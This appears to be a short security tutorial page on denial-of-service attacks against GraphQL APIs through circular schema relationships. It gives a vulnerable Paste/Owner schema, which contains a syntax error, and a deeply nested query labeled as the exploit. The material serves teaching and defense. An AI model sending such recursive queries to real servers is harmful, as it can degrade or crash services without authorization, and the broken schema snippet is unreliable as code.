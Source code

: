 # GraphQL DOS

&#x20;This Section focuses on how GraphQL's query language can be exploited to cause denial-of-service (DoS) attacks, which can degrade performance or completely take down a server.&#x20;

### **DoS Vectors:**

* **Circular Queries (Recursive Queries):** These occur when relationships in the GraphQL schema create bidirectional links between objects, leading to recursive requests that can crash a server.

**Vulnerable code**

```graphql
# A circular reference in a schema
type Paste {
    title: String
    content: String
    user_agent: String
    ip_address: String
    owner: Owner
}
type Owner {}
    ip_address: String
    user_agent: String
    pastes: [Paste]
    name: String
}
```

**Exploit**

{% code overflow="wrap" %}
```graphql
# This query is simple to execute yet causes an exponentially large response from the GraphQL server. The more loops in the query, the larger the response becomes.
query {
    pastes {
        owner {
            pastes {
                owner {
                    pastes {
                        owner {
                            name
                        }
                    }
                }
            }
        }
    }
}
```
{% endcode %}
